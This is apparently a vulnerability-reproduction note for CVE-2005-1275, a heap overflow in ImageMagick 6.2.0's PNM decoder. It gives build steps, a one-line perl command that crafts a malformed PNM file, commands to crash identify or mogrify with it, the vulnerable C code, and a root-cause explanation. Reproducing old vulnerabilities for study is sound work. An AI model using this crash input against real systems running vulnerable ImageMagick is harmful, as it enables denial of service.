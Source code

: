 # CVE-2005-1275

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2005-1275/ImageMagick-6.2.0-8.tar.gz
tar -xvf ImageMagick-6.2.0-8.tar.gz
cd ImageMagick-6.2.0
./configure
make
sudo make install
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
perl -e 'print "P7\n1\n1 1\n1"' > vuln.pnm
export MALLOC_CHECK_=0
/usr/local/bin/identify vuln.pnm

or 

/usr/local/bin/mogrify vuln.pnm
```

## PoCs

[ImageMagick ReadPNMImage() Heap Overflow](https://www.securityfocus.com/archive/1/396851)

[ImageMagick PNM Image Decoding Remote Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/13351/exploit)

[ImageMagick 6.x - '.PNM' Image Decoding Remote Buffer Overflow](https://www.exploit-db.com/exploits/25527/)

## Vulnerability Details & Patch

### Root Cause

A heap overflow exists in ReadPNMImage() function, that is used to decode
a PNM image files. The vulnerable code is:

coders/pnm.c:

```
static Image *ReadPNMImage(const ImageInfo *image_info,ExceptionInfo *exception)
{
...
    if ((format == '1') || (format == '4'))
      max_value=1;  /* bitmap */
    else
      max_value=PNMInteger(image,10);
    image->depth=max_value < 256 ? 8UL : QuantumDepth;
    if ((format != '3') && (format != '6'))
      {
        image->storage_class=PseudoClass;
        image->colors=(unsigned long) (max_value >= MaxColormapSize ?
          MaxColormapSize : max_value+1);
      }
...
        if (AllocateImageColormap(image,image->colors) == MagickFalse)
          ThrowReaderException(ResourceLimitError,"MemoryAllocationFailed");
        if (format == '7')
          {
            /*
              Initialize 332 colormap.
            */
            i=0;
            for (pixel.red=0; pixel.red < 8; pixel.red++)
              for (pixel.green=0; pixel.green < 8; pixel.green++)
                for (pixel.blue=0; pixel.blue < 4; pixel.blue++)
                {
                  image->colormap[i].red=ScaleXToQuantum(pixel.red,0x07);
                  image->colormap[i].green=ScaleXToQuantum(pixel.green,0x07);
                  image->colormap[i].blue=ScaleXToQuantum(pixel.blue,0x03);
                  i++;
                }
          }
...
```

We can manipulate with image->colors value, becouse it`s atributted to "max_value" 
or MaxColormapSize variable. Allocation of memory for image->colormap is based on
image->colors variable (AllocateImageColormap() function). If value of "image->colors"
is for example 1, we allocate only 1*sizeof(PixelPacket) bytes of memory. Next, when
format of PNM file is "7", image->colormap buffer is initialized by 332 colormaps.
If image->colors*sizeof(PixelPacket) bytes are not enought for it, heap structures are
overflowed. We cannot control contents of this buffer, so execute of arbitrary code is
very difficult or imposible, but we can crash it in easy way.

### Stack Trace

### Patch

## References
